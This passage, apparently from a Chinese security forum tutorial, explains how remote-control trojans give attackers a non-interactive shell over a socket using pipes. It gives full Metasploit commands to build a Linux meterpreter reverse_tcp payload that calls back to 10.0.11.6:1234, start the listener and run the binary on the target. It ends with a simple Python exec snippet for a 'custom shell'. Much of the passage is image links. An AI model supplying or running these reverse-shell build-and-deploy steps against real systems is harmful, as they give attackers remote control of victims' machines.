 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d6fcaa2e9c76783c1283d58ce2be4b90217f9d35.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-54933b4058d1f6635caf257a4df57beae2a2440d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-ca5481ddbc9c6c8121615f791c746f353324010e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8a6d498f2ecee7e3209f795b8904dd59a2f054a4.png)

双向证明：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e7e82b6538119d9a518a5476f20a4b910b722ecc.png)

### 4. 非交互式shell-远控木马

#### 1. 恶意程序负责socket通信，如 msf-meterpreter/reverse\_tcp

恶意程序负责socket通信，同时把命令写到管道1中，shell从管道1中读取命令执行，并把结果写到管道2，恶意程序从管道2中读取数据，通过socket回传给攻击者。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-13ff5328cdd6c0436f6bbeb344b4a917bceb7396.png)

```bash
# 控制端
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.11.6 LPORT=1234 -f elf -o /tmp/exp

msfconsole
msf5 > use exploit/multi/handler
msf5 > set payload linux/x64/meterpreter/reverse_tcp
msf5 > set LHOST 10.0.11.6
msf5 > set LPORT 1234
msf5 > run

# 被控端
chmod 777 exp
./exp
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-dac039087e2af38f73836cfbe7c977293141c57f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e3864a4c1ac1516c37efb5824171e74467cffa5b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-52a1a6a5de5c4f176c6fca5e52641c577d1a4e60.png)

#### 2. 自定义shell

自定义一个shell，不使用系统自带的shell。

以 ls 命令为例子，功能是查看目录中有哪些文件，假如我们不想使用ls命令，那我们有什么办法呢？

那就自己写一个类似功能程序的代码，然后执行就可以了。

以 python shellcode为例子(你也可以写汇编 shellcode)：

```python
ls_shellcode = '''
import os

dst_path = '{dst_path}'

dirs = os.listdir(dst_path)

for file in dirs:
 print(file)

'''
exec(ls_shellcode.format(dst_path = "C:/"))
```
